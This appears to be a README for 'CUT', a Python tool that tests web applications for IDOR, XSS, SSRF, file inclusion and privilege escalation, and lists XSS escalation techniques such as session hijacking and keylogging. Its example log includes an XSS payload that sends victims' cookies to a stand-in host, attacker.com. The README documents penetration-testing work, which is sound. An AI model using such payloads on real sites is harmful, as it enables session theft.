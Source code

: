 # **Comprehensive Vulnerability Testing (CUT)**

## **Overview**

CUT (Comprehensive Vulnerability Testing) is an advanced tool designed to identify and escalate various security vulnerabilities in an application. It combines detection and exploitation techniques to provide a thorough security assessment.

## **Features**

- **Detection**:
  - Reads detected vulnerabilities from a file.
- **Automated Exploitation**:
  - Uses specific payloads to test different vulnerabilities.
  - Dynamic scanning of endpoints.
- **Vulnerability Tests**:
  - Insecure Direct Object References (IDOR)
  - Cross-Site Scripting (XSS)
  - Server-Side Request Forgery (SSRF)
  - Local/Remote File Inclusion (LFI/RFI)
  - Privilege Escalation
- **XSS Escalation Techniques**:
  - Session Hijacking
  - Phishing
  - Keylogging
  - Stealing Sensitive Data
  - Defacement
- **Contextual Risk Assessment**:
  - Evaluates business and user impact.
- **Logging and Reporting**:
  - Logs each step and generates a comprehensive report.

## **Installation**

To install the required dependencies, run:

\\'bash
pip install requests
\\'

## **Usage**

1. **Prepare an Input File**: Create a text file with detected vulnerabilities. Each line should follow the format: `endpoint,param,vuln_type`.
2. **Run the Program**: Execute the script with the file path to the input file.

\`\`\`bash
python cut.py
\`\`\`

## **Example Input File**

\`\`\`
https://example.com/search,query,XSS
https://example.com/login,username,SQL Injection
https://example.com/profile,user_id,IDOR
\`\`\`

## **Output**

The program logs all actions and results to a file named `combined_vulnerability_report.log`.

## **Example Output**

\`\`\`log
2025-01-02 07:38:12 - Loaded 3 vulnerabilities
2025-01-02 07:38:12 - Escalating XSS vulnerability at https://example.com/search with parameter query
2025-01-02 07:38:13 - Testing XSS with payload: <script>alert('XSS')</script>
2025-01-02 07:38:13 - Potential XSS vulnerability detected with payload '<script>alert('XSS')</script>'
2025-01-02 07:38:14 - Testing XSS escalation with payload: <script>document.location='http://attacker.com?cookie='+document.cookie</script>
2025-01-02 07:38:14 - Response Status Code: 200
...
2025-01-02 07:38:20 - Report saved to /path/to/output/combined_vulnerability_report.log
\`\`\`

## **Contributing**

If you would like to contribute to this project, please fork the repository and submit a pull request with your changes.

## **License**

This project is licensed under the MIT License.

## **Notes**

- Ensure you have authorization to test the application for vulnerabilities.
- This program is designed for educational and ethical purposes only.
